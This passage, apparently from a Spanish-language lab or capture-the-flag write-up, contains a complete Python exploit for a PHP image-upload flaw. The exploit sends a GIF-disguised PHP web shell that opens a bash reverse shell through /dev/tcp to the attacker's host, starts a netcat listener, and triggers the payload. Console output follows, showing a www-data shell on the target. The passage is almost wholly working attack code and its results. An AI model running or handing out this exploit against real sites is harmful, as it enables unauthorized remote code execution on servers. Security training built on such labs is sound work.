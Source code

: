 ----

### Automatizando la vulnerabilidad

```python
#!/usr/bin/python3

import requests, sys, subprocess, time

if len(sys.argv) != 4:
	print("usage: %s TARGET HOST ADMIN_PHPSESSID" % sys.argv[0])
	sys.exit(-1)

target = sys.argv[1]
host   = sys.argv[2]
sessid = sys.argv[3]

lport = 4444
payload = "GIF89a;<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'\");?>" % (host,lport)
burp = {"http":"http://127.0.0.1:8080"}

def upload_image():
	f = {
		'image':('shell.phar',payload,'image/gif'),
		'title':("shell")
	}
	c = {"PHPSESSID":sessid}
	r = requests.post("http://%s/admin/upload_image.php" % target, cookies=c, files=f, allow_redirects=False, proxies=burp)
	return "Success" in r.text

if upload_image():
	print("[+] Archivo subido exitosamente")
else:
	print("[-] Error")
	sys.exit(-1)

print("[*] Iniciando shell inversa...\n")

subprocess.Popen(["nc","-nvlp","%d"%lport])
time.sleep(1)
requests.get("http://%s/images/shell.phar" % target, proxies=burp)
```

Ejecución del script configurado para que sea interceptado con `BurpSuite` y ver a detalle como viajan las peticiones hasta tener una shell como usuario `www-data`

```
❯ python3 image_upload.py 172.17.0.2 192.168.0.107 5hb7f1ap9drv0c8nb5apntq2ef
[+] Archivo subido exitosamente
[*] Iniciando shell inversa...

listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [172.17.0.2] 44602
bash: cannot set terminal process group (130): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ef90800ff270:/var/www/html/images$ hostname -I
hostname -I
172.17.0.2 
```
